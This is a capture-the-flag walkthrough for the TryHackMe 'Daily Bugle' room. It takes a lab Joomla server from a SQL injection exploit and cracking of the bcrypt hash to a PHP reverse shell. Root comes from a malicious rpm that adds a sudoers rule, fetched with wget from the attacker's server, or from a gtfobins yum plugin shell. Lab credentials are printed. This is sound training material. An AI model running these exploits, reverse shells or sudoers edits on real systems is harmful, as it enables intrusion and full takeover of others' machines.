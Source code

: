 # Daily Bugle

**Room Link:** [https://tryhackme.com/room/dailybugle](https://tryhackme.com/room/dailybugle)



### **Deploy**

**Access the web server, who robbed the bank?**

<figure><img src="../../.gitbook/assets/image (4) (5).png" alt=""><figcaption></figcaption></figure>

### Initial Shell

```
nmap -A 10.10.116.159
```

<figure><img src="../../.gitbook/assets/image (18) (2).png" alt=""><figcaption></figcaption></figure>



**Python Script**

```
git clone https://github.com/stefanlucas/Exploit-Joomla.git 
cd Exploit-Joomla/ 
python3 joomblah.py http://10.10.116.159
```

<figure><img src="../../.gitbook/assets/image (36).png" alt=""><figcaption></figcaption></figure>

```
 [$] Found user ['811', 'Super User', 'jonah', 'jonah@tryhackme.com', '$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm', '', '']
  -  Extracting sessions from fb9j5_session

```

### Cracking the hash

```
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=bcrypt
```

<figure><img src="../../.gitbook/assets/image (24).png" alt=""><figcaption></figcaption></figure>

We can  now login to Joomla with the credentials we have found

```
Username: jonah
Password: spiderman123
```

<figure><img src="../../.gitbook/assets/image (40).png" alt=""><figcaption></figcaption></figure>

### Reverse Shell

All I did was follow this tutorial to get a reverse shell.&#x20;

**Tutorial:** [https://www.hackingarticles.in/joomla-reverse-shell/](https://www.hackingarticles.in/joomla-reverse-shell/)

**Kali**

```
nc -lvp 1234
```

**Browser**

<figure><img src="../../.gitbook/assets/image (22).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (3) (4).png" alt=""><figcaption></figcaption></figure>

Used this PHP reverse shell, just needed to change the IP to my own.

**PHP Reverse Shell:** [https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)

<figure><img src="../../.gitbook/assets/image (1) (4).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (4) (2).png" alt=""><figcaption></figcaption></figure>

Get autocomplete

```
python -c 'import pty; pty.spawn("/bin/bash")'
ctrl + Z
stty raw -echo;fg
```

### Privilege Escalation&#x20;

#### **Option #1 - Create malicious rpm file**

Found a password in the configuration file. The password worked for the user jjameson which was found in the home directory.

<figure><img src="../../.gitbook/assets/image (6) (1).png" alt=""><figcaption></figcaption></figure>

```
ssh jjameson@10.10.116.159
Password: nv5uz9r3ZEDzVjNu
```



jjamerson is able to run yum with no password as sudo

```
sudo -l
```

<figure><img src="../../.gitbook/assets/image (1) (5).png" alt=""><figcaption></figcaption></figure>

**Kali**&#x20;

```
echo 'echo "jjameson ALL=(root) NOPASSWD: ALL" >> /etc/sudoers' > hack.sh 
git clone https://github.com/jordansissel/fpm.git 
cd fpm/bin/ 
./fpm -n root -s dir -t rpm -a all --before-install /root/hack.sh . 
python2 -m SimpleHTTPServer 81
```

Our fpm file is now created&#x20;

<figure><img src="../../.gitbook/assets/image (2) (1) (2).png" alt=""><figcaption></figcaption></figure>

**Victim**&#x20;

```
cd /tmp/ 
wget http://10.10.160.125:81/root-1.0-1.noarch.rpm 
sudo yum localinstall root-1.0-1.noarch.rpm 
sudo -i
```

<figure><img src="../../.gitbook/assets/image (19) (2).png" alt=""><figcaption></figcaption></figure>

#### **Option #2 -** Spawn interactive root shell by loading a custom plugin

**Exploit Link:** [https://gtfobins.github.io/gtfobins/yum/](https://gtfobins.github.io/gtfobins/yum/)

Just had to copy paste from gtfobins and it worked right away

```
TF=$(mktemp -d)
cat >$TF/x<<EOF
[main]
plugins=1
pluginpath=$TF
pluginconfpath=$TF
EOF

cat >$TF/y.conf<<EOF
[main]
enabled=1
EOF

cat >$TF/y.py<<EOF
import os
import yum
from yum.plugins import PluginYumExit, TYPE_CORE, TYPE_INTERACTIVE
requires_api_version='2.1'
def init_hook(conduit):
  os.execl('/bin/sh','/bin/sh')
EOF

sudo yum -c $TF/x --enableplugin=y
```

<figure><img src="../../.gitbook/assets/image (1) (2).png" alt=""><figcaption></figcaption></figure>

